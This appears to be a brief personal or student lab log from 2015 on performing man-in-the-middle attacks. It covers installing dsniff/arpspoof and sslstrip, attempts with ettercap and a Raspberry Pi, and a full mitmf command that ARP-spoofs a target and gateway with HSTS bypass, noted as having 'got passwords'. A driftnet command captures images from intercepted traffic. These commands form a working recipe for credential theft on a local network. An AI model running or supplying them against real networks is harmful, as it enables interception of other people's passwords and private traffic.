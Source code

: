 #28122015

###Man In The Middle attack without ettercap

Installing arpspoof(dsniff)
* apt-get install dsniff

Installing sslstrip
* [LINK] (http://blog.petrilopia.net/linux/raspberry-pi-install-sslstrip/)

no module twisted web found
* apt-get install python-twisted-web

default gateway on attacker pc
* route -n

Mac address from attack computer the same as raspberry 

![FOTO](http://i.imgur.com/x5ZWnHw.png)

###With ettercap

![FOTO](http://i.imgur.com/DkTBB9v.jpg)

![FOTO](http://i.imgur.com/uCBNZT1.jpg)

![FOTO](http://i.imgur.com/2JCA5ow.jpg)

![FOTO](http://i.imgur.com/BgeXIaa.jpg)

###With raspberry

install unzip

**We chose to stop out work with the raspberry pi**

###On pc

Problems with twisted-web

Got passwords 
* mitmf -i eth0 --target 192.168.137.64 --gateway 192.168.137.1  --arp --spoof --hsts
* 2 spaties voor --arp!!!!!

Got images 
* driftnet -b -i eth0

